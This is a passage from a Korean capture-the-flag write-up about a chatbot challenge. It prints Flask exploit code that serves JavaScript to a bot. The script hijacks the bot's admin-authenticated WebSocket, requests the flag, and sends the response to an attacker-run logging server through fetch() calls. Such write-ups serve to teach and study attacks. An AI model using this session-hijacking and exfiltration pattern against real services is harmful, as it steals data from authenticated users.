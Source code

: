 ```python
    ws.addEventListener("error", (error) => {{
        fetch("{LOG_SERVER}/log?tag=event&data=Error: " + error);
    }});

    </script>
    """
    return Response(script)

@app.route('/log', methods=['GET'])
def log():
    tag = request.args.get("tag")
    data = request.args.get("data")
    msg = f"[*] {tag} :: {data}"
    print(msg)
    return msg

app.run(host="0.0.0.0", port=PORT, debug="True")
```

위 코드가 동작하는 서버 주소(`LOG_SERVER`)를 챗봇에게 전달하면 챗봇은 응답받은 자바스크립트를 실행하게 됩니다. 따라서, 위 자바스크립트 코드는 아래의 과정을 통해 플래그를 획득하게 됩니다.

✅ 스크립트 동작 과정

1. 웹 소켓을 연결을 성공적으로 완료했으면, `{"message": "/getFlag"}` 메시지를 전달합니다.
    
    ```jsx
    const ws = new WebSocket("{TARGET}");
    
    ws.addEventListener("open", () => {{
        fetch("{LOG_SERVER}/log?tag=event&data=open");
        ws.send("{{\\"message\\": \\"/getFlag\\"}}")
    }});
    ```
    
2. `{"message": "/getFlag"}` 메시지 요청에 대한 응답을 `LOG_SERVER` 의 주소로 전달합니다.
    
    ```jsx
    ws.addEventListener("message", (event) => {{
        fetch("{LOG_SERVER}/log?tag=recv&data=" + event.data);
    }});
    ```
    

결국 봇은 웹 소켓을 연결하고 `{"message": "/getFlag"}` 메시지를 전달할 때, `{userId: 'admin'}` 정보가 포함된 JWT 토큰을 포함하여 전달하게 됩니다.

이후 서버는 `userId` 가 ‘admin’ 인 것을 확인했으니 플래그를 응답하게 됩니다.

## Exploit

앞서 Flask 프레임워크로 구현된 코드를 실행합니다. 이후 해당 웹 서버로 접속하면 다음과 같이 웹 소켓이 연결된 이후 메시지를 전송하는 것을 확인하실 수 있습니다.
